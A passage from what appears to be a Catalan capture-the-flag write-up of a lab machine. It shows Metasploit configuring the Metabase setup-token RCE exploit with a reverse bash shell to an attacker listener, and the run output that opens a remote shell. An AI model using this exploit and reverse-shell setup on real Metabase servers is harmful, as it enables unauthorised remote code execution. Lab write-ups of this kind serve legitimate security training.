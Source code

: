 ```
`sf6 exploit(linux/http/metabase_setup_token_rce) > show options

Module options (exploit/linux/http/metabase_setup_token_rce):

Name Current Setting Required Description

---- --------------- -------- -----------

Proxies no A proxy chain of format type:host:port[,type:host:port][...]

RHOSTS data.analytical.htb yes The target host(s), see https://docs.metasploit.com/docs/using-metasplo

it/basics/using-metasploit.html

RPORT 80 yes The target port (TCP)

SSL false no Negotiate SSL/TLS for outgoing connections

TARGETURI / yes The URI of the Metabase Application

VHOST no HTTP server virtual host

Payload options (cmd/unix/reverse_bash):

Name Current Setting Required Description

---- --------------- -------- -----------

LHOST 10.10.14.183 yes The listen address (an interface may be specified)

LPORT 4444 yes The listen port

  
Exploit target:

Id Name

-- ----
0 Automatic Target`
```

  
Ara fem run i ja estem dins:

```
`msf6 exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on 10.10.14.183:4444

[*] Running automatic check ("set AutoCheck false" to disable)

[+] The target appears to be vulnerable. Version Detected: 0.46.6

[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f

[*] Sending exploit (may take a few seconds)

[*] Command shell session 1 opened (10.10.14.183:4444 -> 10.10.11.233:43142) at 2024-01-31 19:21:58 +0100`
```
